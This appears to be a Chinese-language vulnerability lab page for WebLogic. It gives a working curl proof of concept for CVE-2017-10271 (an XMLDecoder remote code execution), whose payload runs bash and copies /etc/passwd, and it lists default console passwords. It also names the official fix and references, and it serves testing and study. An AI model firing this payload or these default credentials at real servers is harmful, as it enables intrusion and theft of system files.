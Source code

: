 ### CVE-2017-10271 - java.beans.XMLDecoder RCE

测试镜像

* src/weblogic/10.3.6/

参考资料 

* [c0mmand3rOpSec/CVE-2017-10271 - weblogic exploit](https://github.com/c0mmand3rOpSec/CVE-2017-10271)
* [Weblogic XMLDecoder RCE分析](http://xxlegend.com/2017/12/22/Weblogic%20CVE-2017-10271%20XMLDecoder%20RCE%E5%88%86%E6%9E%90/)

Poc

```
curl http://127.0.0.1:7011/wls-wsat/CoordinatorPortType -H 'Content-Type: text/xml' --data '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.8.0_151" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>cp /etc/passwd /tmp/hacked</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
```

官方修复方式

* 过滤了 object, new, void, method 等标签

### 运维安全 - weblogic /console/ 弱口令

测试镜像

* src/weblogic/12.2.1.3

默认密码

* weblogic:weblogic1
* weblogic:welcome1



